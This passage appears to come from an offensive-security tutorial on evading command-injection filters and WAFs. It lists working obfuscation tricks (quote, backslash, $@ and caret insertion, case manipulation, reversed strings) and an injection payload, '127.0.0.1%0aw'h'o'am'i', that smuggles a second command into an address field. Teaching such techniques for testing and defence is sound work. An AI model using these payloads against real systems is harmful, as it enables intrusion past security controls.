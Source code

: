 **Easy Trick: Insert Quotes**

Insert single ' or double " quotes inside the command letters. Shells ignore these quotes but still run the command.

Example:

`w'h'o'am'i`
`w"h"o"am"i`

Both run whoami successfully.

Note: Use only one type of quote and make sure quotes come in pairs.

**Try in Payload**

Use something like:

`127.0.0.1%0aw'h'o'am'i`

This bypasses the blacklist and runs your command.

**Linux-Only Tricks**
You can also insert backslashes `\` or `$@` inside commands; Bash ignores these.

Examples:


`who$@ami`
`w\ho\am\i`

**Windows-Only Trick**

Insert a caret `^` inside commands in Windows CMD.

Example:

`who^ami`

# Advanced Command Obfuscation (Simplified)

When basic evasion tricks fail because of stronger filters or WAFs, you can hide (obfuscate) your commands so they’re harder to detect.

**1. Case Manipulation**

Change letter casing (e.g., WhOaMi instead of whoami).
Windows: Commands are case-insensitive, so any casing works.
Linux: Case matters. You can convert to lowercase before running:

`$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`

If spaces are blocked, replace them with tabs (%09).

**2. Reversed Commands**

Write the command backwards, then reverse it before running:

`$(rev<<<'imaohw')`   # Executes 'whoami'

Works on both Linux and Windows (different syntax for reversing strings).
